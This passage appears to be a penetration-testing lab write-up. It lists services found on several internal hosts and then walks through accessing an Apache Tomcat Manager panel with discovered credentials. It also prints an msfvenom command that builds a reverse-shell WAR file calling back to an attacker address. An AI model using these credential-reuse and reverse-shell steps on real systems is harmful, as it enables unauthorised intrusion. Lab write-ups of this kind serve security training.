 * **172.16.1.5:** This host is running the Microsoft RDP service (ms-wbt-server), which might be used for remote desktop access.

1. **172.16.1.11:** This host is running multiple services including:

> hostname of Host-1 : shells-winsvr

* HTTP on port 80 served by Microsoft IIS 10.0, with the title “Inlanefreight Server Status”.
* Various Microsoft RPC services on ports 135, 2103, 2105, and 2107.
* SMB service on ports 139 and 445.
* Printer service on port 515.
* Apache Tomcat service on port 8080.

**2. 172.16.1.12:** This host is running:

* SSH service on port 22 served by OpenSSH 8.2p1 on Ubuntu.
* HTTP service on port 80 served by Apache httpd 2.4.41 on Ubuntu, with the title “Inlanefreight Gabber”.

**3. 172.16.1.13:** This host is running:

* HTTP on port 80 served by Microsoft IIS 10.0.
* Various Microsoft RPC services on ports 135 and 139.
* SMB service on port 445.

## Exploiting Apache Tomcat Manager <a href="#id-416a" id="id-416a"></a>

With the information gathered from the initial access and network scanning, I identified an Apache Tomcat service running on `172.16.1.11` (Host 1) on port 8080. Using the credentials found in the `access-creds.txt` file, I attempted to access the Tomcat Manager Panel.

## Accessing the Tomcat Manager Panel <a href="#id-3bbc" id="id-3bbc"></a>

1. **Target IP Address:** `172.16.1.11`
2. **Port:** `8080`
3. **Service:** Apache Tomcat 10.0.11
4. tomcat:Tomcatadm

```
http://172.16.1.11:8080/manager
```

## Deploying a Malicious WAR File <a href="#id-4a28" id="id-4a28"></a>

Uploading a malicious WAR (Web Application Archive) file to gain a reverse shell or remote code execution on the server.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=4444 -f war -o rev_shell.war
```

I then uploaded the `rev_shell.war` file through the Tomcat Manager Panel:
